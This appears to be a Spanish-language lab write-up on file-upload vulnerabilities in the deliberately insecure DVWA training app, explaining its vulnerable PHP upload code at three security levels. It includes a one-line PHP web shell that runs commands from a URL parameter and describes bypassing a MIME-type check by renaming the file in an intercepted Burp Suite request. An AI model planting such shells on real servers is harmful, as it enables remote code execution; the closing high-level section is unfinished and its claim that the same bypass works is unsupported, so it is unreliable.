






# POC File Upload

## 0 seguridad ☠️

Empezaremos las pruebas de este exploit usando un archivo php simple que nos permitirá ejecutar código remoto en el equipo atacado de forma sencilla. Este código se explica en el archivo MD File upload.

```php
❯ cat shell.php
───────┬────────────────────────────────────────────
       │ File: shell.php
───────┼────────────────────────────────────────────
   1   │ <?php echo system($_GET['command']); ?>
───────┴────────────────────────────────────────────
```

Como vemos el archivo se puede subir sin problemas y conseguimos una ejecución remota de comandos.



Y es posible ejecutarlo en el servidor permitiendo hacer una inyección de comandos.



Podemos ver el código fuente y ver que esta sucediendo durante la subida del archivo.

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>

```

Actualmente el problema con este código es que no verifica si el archivo subido es seguro. El código simplemente acepta cualquier archivo que el usuario haya cargado y lo mueve al servidor sin realizar ninguna verificación de seguridad. Esto significa que si un usuario malintencionado sube un archivo malicioso, podría ejecutar código malicioso en el servidor.

Veamos de forma mas detallada que sucede en este código y porque es inseguro actualmente.

```php
if (isset($_POST['Upload'])) {
```

Esta línea comprueba que se ha enviado el formulario a través del método POST y si el botón de envío se llama Upload en caso afirmativo empieza a procesar el archivo.

```php
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
```

Estas líneas definen la ruta donde se guardará el archivo cargado en el servidor.  El código agrega la parte de la ruta donde se almacenarán los archivos cargados y el nombre del archivo cargado. El nombre del archivo cargado se obtiene a través de la variable $_FILES, que contiene información sobre el archivo cargado.

```php
if (!move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path )) {
```

Esta linea intenta mover el archivo a su destino final, si este no se puede mover daría error.

Como vemos en ningún momento se comprueba que estemos subiendo un fichero legitimo y es por ello que podemos ejecutar código remoto.

## Un poco de seguridad 💀

Si intentamos subir ahora el codigo que vimos anteriormente veamos que sucede.



Como vemos detecta que no es una imagen y nos lo hecha para atras. Veamos el codigo para ver que medidas de seguridad se han implementado y como podemos romperlo.

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```

Desgranemos el codigo para ver mas en detalle que sucede ahora.

```php
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
```

Esta sección del código obtiene la información del archivo cargado, incluyendo su nombre, tipo y tamaño. Esta información se usará más adelante en el código para verificar si el archivo cargado es seguro. Por lo que si el tipo ya no coincide con el que nos pedirán posteriormente no podremos realizar la subida del archivo.

```php
// Is it an image?
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) ) {

```

Esta sección del código verifica si el archivo cargado es una imagen JPEG o PNG y si su tamaño es menor a 100.000 bytes. Si se cumple esta condición, el archivo se considera seguro y se puede mover a la ruta de destino. Como hemos visto nuestro archivo no se sube a la pagina web porque no cumplimos estas condiciones. 

Aunque, ¿Es esto insalvable?....

### Rompiendo lo "seguro"

Para realizar el final de esta practica deberemos de utilizar un software que pare la petición por nosotros y poder modificarla antes de que se envie al servidor para ello usaremos burpsuite.



Si paramos la petición veremos que esta intentando subir el archivo shell2.php.jpg que hemos utilizado en esta ocasión para comprobar si la subida de archivos es insegura. Realizando un cambio en el envio y cambiando el nombre shell2.php.jpg por shell2.php





### Seguridad?? 👻

Por definir si queremos llegar al nivel alto de DVWA el metodo anterior tambien lo rompe.

```php
 <?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>

```


